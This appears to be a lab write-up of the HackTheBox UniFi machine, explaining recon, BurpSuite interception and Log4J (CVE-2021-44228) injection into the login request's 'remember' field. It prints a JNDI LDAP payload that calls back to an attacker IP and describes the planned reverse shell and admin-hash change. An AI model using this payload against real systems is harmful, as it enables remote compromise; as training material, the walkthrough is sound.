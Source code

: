 # Log4J exploit on an UniFi system

From the official HTB write-up (prepared by "pwnix"): *This writeup explores the effects of exploiting Log4J in a very well known network appliance monitoring system called "UniFi". This box will show you how to set up and install the necessary packages and tools to exploit UniFi by abusing the Log4J vulnerability and manipulate a POST header called ```remember```, giving you a reverse shell on the machine. You'll also change the administrator's password by altering the hash saved in the MongoDB instance that is running on the system, which will allow access to the administration panel and leads to the disclosure of the administrator's SSH password.*

Note: In some applications, a "remember" or similar header might be used to indicate that a user wants their session or authentication to persist beyond the current session. It’s often linked to "Remember Me" functionality where users stay logged in even after closing their browser. If we managed to exploit it, it’s likely because the application processed the "remember" header in a way that we could manipulate. For example, if the application uses the value from the "remember" header in an unsafe manner (e.g., unsanitized input), we might be able to inject malicious payloads.

And now back to the write-up: *The scan reveals port 8080 open running an HTTP proxy. The proxy appears to redirect requests to port 8443, which seems to be running an SSL web server. We take note that the HTTP title of the page on port 8443 is " UniFi Network ".*

*Upon accessing the page using a browser we are presented with the UniFi web portal login page and the version number is 6.4.54. If we ever come across a version number it’s always a great idea to research that particular version on Google. A quick Google search using the keywords UniFy 6.4.54 exploit reveals an [article](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) that discusses the in-depth exploitation of the [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability within this application.*

*This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection), which is a web security vulnerability that allows an attacker to execute arbitrary operating system commands on the server that is running the application and typically fully compromise the application and all its data.*

*To determine if this is the case, we can use FoxyProxy after making a POST request to the ```/api/login``` endpoint, to pass on the request to BurpSuite, which will intercept it as a middle-man. The request can then be edited to inject commands.*

*First, we attempt to login to the page with the credentials ```test:test``` as we aren’t trying to validate or gain access. The login request will be captured by BurpSuite and we will be able to modify it. Before we modify the request, let's send this HTTPS packet to the ```Repeater``` module of BurpSuite by pressing ```CTRL+R```.*

*Next, we input the payload into the ```remember``` field as shown below so that we can identify an injection point if one exists. If the request causes the server to connect back to us, then we have verified that the application is vulnerable.*

```
${jndi:ldap://{Tun0 IP Address}/whatever}
```

For example:

```
${jndi:ldap://10.10.14.244/whatever}
```
